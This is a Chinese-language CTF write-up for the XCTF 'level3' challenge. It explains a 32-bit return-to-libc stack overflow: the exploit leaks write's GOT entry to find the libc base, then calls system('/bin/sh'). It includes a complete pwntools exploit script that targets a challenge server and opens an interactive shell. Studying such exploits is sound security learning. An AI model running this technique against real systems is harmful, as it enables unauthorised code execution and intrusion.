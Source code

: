 # level3

题目来源：https://adworld.xctf.org.cn/

这道题是典型的 return to libc 的题目，可惜对这个不是特别熟悉，所以吃了亏，正好借这道题学习一下方法。先简单看一下代码，看代码之前再简单说个小前提，就是下载下来的文件是一个被压缩过的 tar 文件，需要解压缩后获得两个文件，一个是 level3 可执行文件，还有一个是 libc_32.so.6 的动态链接库。

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}

ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  write(1, "Input:\n", 7u);
  return read(0, &buf, 0x100u);
}
```

题目好像和初始的 level0 类似，溢出点也很清晰不需要赘述，但是难点在于程序中没有出现 system 函数，也没有显示出现 /bin/sh 的字符串。理论上使用 ldd，你是能够看到这个文件使用的动态链接库的，就是给出的这个 lib_32.so.6。

因为在程序运行的时候，这个动态链接库也被加载到了内存中，所以我们同样能够使用该库中的数据与函数。通过 strings 可以从库中找到 /bin/sh 的地址为 0x0015902b。但是接下去还缺少一个 system 函数，这个有点难找，当然可以选择使用 ida 去查找，但是使用 pwntools 就能够轻松获取：

> pwntools 中提供类 ELF 来构造一个 elf 文件的结构，只需要通过调用一下方法：
>
> elf.plt: 某个符号在 plt 表中的地址
>
> elf.got: 某个符号在 got 表中的地址
>
> elf.symbols: 某个符号数据或者代码的地址

那么 return to libc 到底如何操作。主要我们发现动态链接库是没有加载地址的，因为只有在动态链接库加载到内存时才能确定最终的地址，而上面查到的 /bin/sh 和 system 的地址都是它们在库文件中的偏移。**所以 return to libc 的灵魂在于如何暴露出 libc 的基地址！**

那么问题就是如何暴露 libc 的基地址呢？因为我们使用到的 write 和 read 函数都是出自 libc，而它们的 got 表中的值最后就是它们在内存中的 libc 内的地址，所以就有了一个公式。假设当前进程中 write 的 got 表项的值是 A，而 write 函数在 libc 库文件的偏移是 B，而一个函数在库文件中的偏移是不会改变的，所以 libc 在内存中的基地址是 A-B。

当我们获取了基地址，就可以构造内存中 libc 中的任何函数的地址了。看一下最终的脚本代码：

```python
from pwn import *                                                         
import time                                                                                                                                                            
conn = remote('220.249.52.133', 54069)                                  
dir_path = '/mnt/c/Users/lenovo/Desktop/4005b2fef2a24a89963f0bfdcac9d0f3/'  
cfile = ELF(dir_path + 'level3')                                            
lib = ELF(dir_path + 'libc_32.so.6')                                                                                                                                  
write_plt = cfile.plt['write']                                    
write_got = cfile.got['write']                                        
main_addr = cfile.symbols['main']                                
# print write_plt                                                          
# print write_got                                                         
# print main_addr                                                         
str1 = 'a' * 0x8C + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)           
print conn.recvuntil('Input:')                               
conn.sendline(str1)                                                   
conn.recv()                                                            
rec_str = conn.recv()                                            
write_got_real = u32(rec_str[:4])                                      
print write_got_real                                              
lib_base = write_got_real - lib.symbols['write']            
system_symbol = lib.symbols['system']                          
bin_addr = 0x0015902b                   
str2 = 'a' * 0x8C + p32(lib_base + system_symbol) + p32(1) + p32(lib_base + bin_addr)   print conn.recvuntil('Input:')                                    
conn.sendline(str2)      
conn.interactive()
```

看一下构造 str1 和 str2 的过程，其实一开始一个奇怪的点在于，比如说 str2，在 system 函数地址和 bin 参数中间要加入一个 32 位常数。一开始对这一步很不解，但是仔细想一下栈帧，会发现其实这个常数对应的是返回地址！(可以仔细思考返回后弹出 RIP 之后的栈帧情况，这个区别于直接使用 call system 去构造，它会默认帮我们 push 返回地址)